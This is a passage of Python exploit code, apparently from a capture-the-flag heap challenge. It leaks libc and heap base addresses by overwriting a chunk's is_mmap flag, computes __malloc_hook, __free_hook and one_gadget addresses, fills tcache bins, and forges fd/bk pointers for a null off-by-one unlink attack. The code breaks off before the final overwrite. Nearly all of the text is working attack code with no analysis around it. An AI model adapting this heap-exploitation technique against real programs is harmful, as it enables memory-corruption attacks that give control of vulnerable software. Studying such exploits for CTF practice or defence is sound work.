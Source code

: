 ```python
# leak heap and libc address
add(0,0x80)
add(1,0x500)
add(2,0x80)
delete(1)

add(1,0x600) #now 0x510 in largebin

pay = 0x88*b'\x00' + p64(0x510+1+2)
super_edit(0,pay) # overwrite is_mmap flag 

add(3,0x500)

show(3)
rc(8)
# libc_base = u64(rc(8)) - 0x1eb010
libc_base = u64(rc(8)) - 0x1e50d0
heap_base = u64(rc(8)) - 0x320 



malloc_hook = libc_base + libc.symbols['__malloc_hook']
free_hook = libc_base + libc.symbols['__free_hook']
realloc = libc_base + libc.symbols['realloc']
onegadget = libc_base + one[3]

# fill tcache 0x90
delete(0)
delete(1)
delete(2)
for i in range(5):
    add(0,0x80)
    delete(0)
# fill tcache 0x60
for i in range(5):
    add(0,0x50)
    delete(0)

# fill tcache 0x230
for i in range(7):
    add(0,0x220)
    delete(0)
# set a 0x60 to smallbin 
add(0,0x420)
add(1,0x10)
delete(0)
add(0,0x3c0)
add(2,0x60)

# null off by one to unlink
target = heap_base + 0x2220 #unlink target
pay = b''
pay += p64(0)
pay += p64(0x231)
pay += p64(target - 0x18)
pay += p64(target - 0x10)
pay += p64(target) #ptr
add(4,0x80)
edit(4,pay)

add(5,0x80)
edit(5,p64(heap_base+0x2190))

```